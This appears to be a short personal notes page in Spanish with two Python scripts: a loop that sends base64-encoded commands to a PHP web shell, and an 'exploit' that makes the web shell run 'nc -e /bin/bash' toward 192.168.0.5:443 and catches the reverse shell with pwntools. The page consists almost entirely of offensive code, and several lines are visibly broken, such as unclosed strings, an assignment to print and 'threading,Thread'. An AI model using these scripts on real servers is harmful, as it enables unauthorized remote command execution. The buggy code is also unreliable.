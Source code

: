 ```yaml
---
title: PythonScripting
published: true
---
```

<p><font color="yellow">[<font color="red">*</font>]</font><font color="lime"> sáb 26 nov 2022</font></p>
<p><center><font color="green">Shell Simulation, With Base64 Requests</font></center></p>

<b>

```python

	import requests 
	import time, signal, sys
	from base64 import b64encode
	def salida(sig,frame):
		print('\n saliendo\n')
		sys.exit(1)

	signal.signal(signal.SIGINT, salida)

	while True:
		command = input('\n shell : )
		command = command.encode('utf-8)
		command = b64encode(command).decode('utf-8')

		data = {
			'cmd' : 'echo %s | base64 -d | bash' % (command)
			
		}

		request = requests.get('http://localhost/shell.php', params=data, timeout=5).text

		print = ('\n', request)

```
<br>
<p><font color="yellow">[<font color="red">*</font>]</font><font color="lime"> dom 27 nov 2022</font></p>
<br>

<p><center><font color="green">Exploit python3 reverseShell</font></center></p>

```python

#!/usr/bin/python3

import requests
import signal
import threading
import sys
from pwn import *

def salida(sig, frame):
	print('\n\n[!] Saliendo .. \n')
	sys.exit(1)

signal.signal(signal.SIGINT, salida)
if __name__ == '__main__' : 

	def exploit():
		url = 'http://localhost/cmd.php'
		data = {
			'cmd' : 'nc -e /bin/bash 192.168.0.5 443'
		}
		requests.get(url, params=data)
	
	try:
		threading,Thread(target=exploit).start()
	except Exception as e:
		print()
		
	port= 443	
	shell = listen(port).wait_for_connection()
	shell.interactive()


```
